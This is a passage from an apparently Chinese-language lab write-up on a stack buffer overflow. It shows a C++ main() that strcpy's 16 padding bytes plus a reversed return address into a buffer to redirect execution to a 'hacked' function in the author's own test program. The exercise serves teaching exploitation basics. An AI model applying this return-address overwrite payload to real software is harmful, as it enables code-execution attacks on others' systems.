             <img src="imgs/retaddr.png" width=70% height=70%>

       - hacked函数的地址。
            <img src="imgs/hackedaddr.png" width=70% height=70%>
       - 由于将地址的`\x`参数填在Visual Studio的命令参数处会被Visual Studio自动转义从而失效，所以改成字符串常量传参，代码修改如下。

            ```c++
            //在调试选项中输入的参数
            int main(int argc, char** argv)
            {
                //argv[0]是程序名 第二个参数才是输入的数据
                //在命令行下输入
                char str[50] = "";
                // 地址需要反过来写 hacked函数的地址为 21011580
                strcpy(str ,"1234123512361237\x80\x15\x01\x21");
                if (argc > 1)
                    sub(str);
                printf("exit");
            }
            ```
        - 成功执行hacked函数，由于hacked函数执行完后，回来原来的地方时即sub函数，地址已经被修改，所以无法正常回到main函数，即报错。
